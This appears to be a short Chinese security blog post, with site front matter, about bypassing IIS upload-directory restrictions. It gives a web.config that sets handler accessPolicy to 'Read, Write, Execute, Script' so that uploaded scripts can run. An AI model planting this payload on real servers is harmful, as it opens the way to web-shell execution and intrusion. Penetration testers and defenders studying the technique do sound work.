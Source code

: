 ```yaml
---
title: "Web.config 突破权限限制"
date: 2018-07-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['asp.net']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



在一个可读写的目录里无法执行脚本, 通过上传特殊的 `web.config` 文件突破限制.

<!--more-->

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Write, Execute, Script" />
    </system.webServer>
</configuration>
```